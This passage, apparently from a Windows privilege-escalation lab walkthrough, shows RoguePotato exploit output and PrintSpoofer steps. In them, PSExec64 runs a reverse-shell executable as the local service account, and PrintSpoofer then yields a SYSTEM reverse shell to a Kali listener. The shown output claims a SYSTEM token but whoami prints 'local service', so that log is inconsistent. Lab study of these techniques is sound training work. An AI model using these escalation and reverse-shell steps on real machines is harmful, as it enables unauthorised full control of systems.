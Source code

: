```bash
[*] SecurityCallback RPC call
[*] ServerAlive2 RPC Call
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pip                                                              e/RoguePotato[\pipe\epmapper]
[*] Client connected!
[+] Got SYSTEM Token!!!
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching:                                                               C:\PrivEsc\reverse.exe
[+] RoguePotato gave you the SYSTEM powerz :D

C:\Windows\system32>
C:\Windows\system32>whoami
whoami
nt authority\local service

C:\Windows\system32>
```

## printspoofer

Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:

```bash
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):

```bash
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```



